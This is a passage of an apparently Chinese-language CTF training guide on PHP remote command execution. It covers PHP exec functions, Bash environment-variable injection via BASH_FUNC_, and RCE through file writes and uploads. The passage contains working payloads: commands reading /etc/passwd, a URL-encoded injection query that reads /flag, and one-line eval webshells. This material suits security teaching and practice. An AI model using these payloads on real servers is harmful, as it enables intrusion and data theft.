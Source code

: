 idea from ：[【HITCON 2017 - BabyFirst-Revenge-v2】](https://github.com/orangetw/My-CTF-Web-Challenges?tab=readme-ov-file#babyfirst-revenge-v2)

### Level 17 : 命令执行 - PHP命令执行函数 

| 函数                                                         | 说明                                                         | 示例代码                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| [`system()`](https://www.php.net/manual/zh/function.system.php) | `system()` 函数用于在系统权限允许的情况下执行系统命令（Windows 和 Linux 系统均可执行）。 | `system('cat /etc/passwd');`                                 |
| [`exec()`](https://www.php.net/manual/zh/function.exec.php)  | `exec()` 函数可以执行系统命令，但不会直接输出结果，而是将结果保存到数组中。 | `exec('cat /etc/passwd', $result); print_r($result);`        |
| [`shell_exec()`](https://www.php.net/manual/zh/function.shell-exec.php) | `shell_exec()` 函数执行系统命令，但返回一个字符串类型的变量来存储系统命令的执行结果。 | `echo shell_exec('cat /etc/passwd');`                        |
| [`passthru()`](https://www.php.net/manual/zh/function.passthru.php) | `passthru()` 函数执行系统命令并将执行结果输出到页面中，支持二进制数据。 | `passthru('cat /etc/passwd');`                               |
| [`popen()`](https://www.php.net/manual/zh/function.popen.php) | `popen()` 函数执行系统命令，但返回一个资源类型的变量，需要配合 `fread()` 函数读取结果。 | `$result = popen('cat /etc/passwd', 'r'); echo fread($result, 100);` |
| [反引号 \`\`](https://www.php.net/manual/zh/language.operators.execution.php) | 反引号用于执行系统命令，返回一个字符串类型的变量来存储命令的执行结果。**注意：关闭了 [shell_exec()](https://www.php.net/manual/zh/function.shell-exec.php) 时反引号运算符是无效的** | `` echo `cat /etc/passwd` ``                                     |

### Level 18 : 命令执行 - 环境变量注入 

[【我是如何利用环境变量注入执行任意命令】](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)

```
foreach($_REQUEST['a'] as $key => $val) {
    putenv("{$key}={$val}");
}
=> a[key] = val
```

- Bash 4.4以前：`env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"`
- Bash 4.4及以上：`env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'`

```
<@URLencode>?envs[BASH_FUNC_echo%%]=() { cat /flag; }<@URLencode>
?envs[BASH_FUNC_echo%25%25]=()%20{%20cat%20/flag;%20}
```

Level 19 : 文件写入导致的RCE 

| 函数                | 说明                                                         | 示例代码                                                     |
| ------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `file_put_contents` | 将字符串写入文件，如果文件不存在会尝试创建。适用于快速简单地写入数据到文件。 | `file_put_contents('example.php', '<?php eval($_GET[helloctf]); ?>');` |
| `fwrite/fputs`      | 向一个打开的文件流写入数据，适用于需要更细粒度的控制文件操作的场景。 | `$fp = fopen('example.php', 'w'); fwrite($fp, '<?php eval($_GET[helloctf]); ?>'); fclose($fp);` |
| `fprintf`           | 类似于 `fwrite`，但提供格式化功能，允许按照特定格式写入数据到文件流。适用于需要格式化写入的场景。 | `$fp = fopen('example.php', 'w'); fprintf($fp, '<?php eval($_GET[helloctf]); ?>'); fclose($fp);` |

Level 20 : 文件上传导致的RCE 

没有做任何waf 直接上传webshell执行命令即可


Level 21 : 文件包含导致的RCE 



Level 22 : PHP 特性 - 动态调用 
